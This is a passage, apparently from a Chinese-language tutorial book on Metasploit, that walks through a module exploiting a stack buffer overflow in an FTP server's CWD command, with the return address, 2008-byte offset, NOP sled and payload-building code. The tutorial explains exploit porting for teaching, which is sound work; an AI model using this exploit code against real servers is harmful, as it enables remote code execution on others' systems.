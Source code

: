 ```
  'Ret' => 0x71ab9372,
  'Offset' => 2008
    }
  ],
  ],
  'DisclosureDate' => 'May 9 2016',
  'DefaultTarget' => 0))
  register_options(
  [
Opt::RPORT(21),
OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
],self.class)
End

```

我们首先包括所有必需的库和来自`/lib/msf/core/exploit`目录的`ftp.rb`库。接下来，我们在`initialize`部分分配所有必要的信息。收集利用漏洞的要素，我们分配`Ret`，返回地址和偏移量为`2008`。我们还将`FTPPASS`选项的值声明为`anonymous`。让我们看一下代码的下一部分，如下所示：

```
def exploit
  c = connect_login
  return unless c
    sploit = rand_text_alpha(target['Offset'])
    sploit << [target.ret].pack('V')
    sploit << make_nops(10)
    sploit << payload.encoded
    send_cmd( ["CWD " + sploit, false] )
    disconnect
  end
end

```

`connect_login`方法将连接到目标并尝试使用我们提供的凭据登录到软件。但是等等！我们什么时候提供凭证的？模块的`FTPUSER`和`FTPPASS`选项通过包含`FTP`库自动启用。`FTPUSER`的默认值为`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了`anonymous`的值。

接下来，我们使用`rand_text_alpha`使用目标字段的偏移值生成`2008`的`junk`，并将其存储在 sploit 变量中。我们还使用`sploit`变量中的 pack（`V`）函数以小端格式存储目标字段中的`Ret`值。使用`make_nop`函数连接 NOP，然后将外壳代码连接到`sploit`变量，我们的输入数据就可以提供了。

接下来，我们使用`FTP`库中的`send_cmd`函数，将`sploit`变量中的数据发送到`CWD`命令中的目标。那么，Metasploit 有何不同？让我们看看以下几点：

*   我们不需要创建垃圾数据，因为`rand_text_aplha`函数为我们创建了垃圾数据。
*   我们不需要以 little endian 格式提供`Ret`地址，因为 pack（`V`函数帮助我们转换它。
*   我们不需要像`make_nops`为我们做的那样手动生成 NOP。
*   我们不需要提供任何硬编码的有效负载，因为我们可以在运行时决定和更改有效负载。有效载荷的切换机制通过消除外壳代码的手动更改来节省时间。
*   我们只是利用`FTP`库来创建和连接套接字。
*   最重要的是，我们不需要使用手动命令进行连接和登录，因为 Metasploit 使用一种方法为我们完成了连接和登录，即`connect_login`。

# 使用 Metasploit 开发目标应用程序

我们看到了 Metasploit 的使用比现有的漏洞利用有多大的好处。让我们开发应用程序并分析结果：
